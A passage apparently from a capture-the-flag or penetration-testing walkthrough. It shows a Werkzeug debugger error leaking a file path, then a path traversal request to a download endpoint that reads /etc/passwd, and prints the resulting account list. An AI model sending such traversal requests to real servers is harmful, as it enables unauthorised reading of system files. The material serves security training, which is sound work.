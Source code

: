 ```makefile
Server: nginx/1.18.0 (Ubuntu)
Date: Fri, 29 Nov 2024 21:22:29 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 13539
Connection: keep-alive

<!doctype html>
<html lang=en>
  <head>
    <title>FileNotFoundError: [Errno 2] No such file or directory: '/tmp/notexist.csv'
 // Werkzeug Debugger
<SNIP>
```

It reveals critical information that the export function is trying to fetch files from `/tmp` directory.
I think if we use `..` wildcard, we can directly access to server-side files. Let's try.

```bash
GET /download?fn=../etc/passwd HTTP/1.1
<SNIP>

===================================================

<SNIP>

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
usbmux:x:107:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
corum:x:1000:1000:corum:/home/corum:/bin/bash
dnsmasq:x:108:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
mysql:x:109:112:MySQL Server,,,:/nonexistent:/bin/false
runner:x:1001:1001::/app/app-testing/:/bin/sh
edwards:x:1002:1002::/home/edwards:/bin/bash
dev_admin:x:1003:1003::/home/dev_admin:/bin/bash
_laurel:x:999:999::/var/log/laurel:/bin/false
```
